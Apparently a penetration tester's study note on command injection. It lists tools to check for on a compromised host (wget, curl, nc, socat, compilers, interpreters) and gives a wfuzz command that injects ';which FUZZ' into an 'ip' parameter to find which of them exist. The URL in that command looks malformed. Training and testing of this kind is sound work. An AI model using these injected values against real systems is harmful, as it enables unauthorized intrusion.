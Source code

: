 ```yaml
---
tags:
- cmdInjection
---
```


# Check availability of commands

Word lists of commands
capability_checks_custom.txt
```
wget
curl
fetch
gcc
cc
nc
socat
ping
netstat  
ss
ifconfig
ip
hostname
php
python
python3
perl
java
systeminfo
```

Check availability of commands:
```bash
wfuzz -c -z file,/home/kali/capability_checks_custom.txt --hc 404 "http://example.comip=127.0.0.1;which FUZZ"
```
See more in  [[2023090518011919 CMD Injection.  Check availability of commands#^3b5dfe]]

## References
1. web200 , p. 370 ^3b5dfe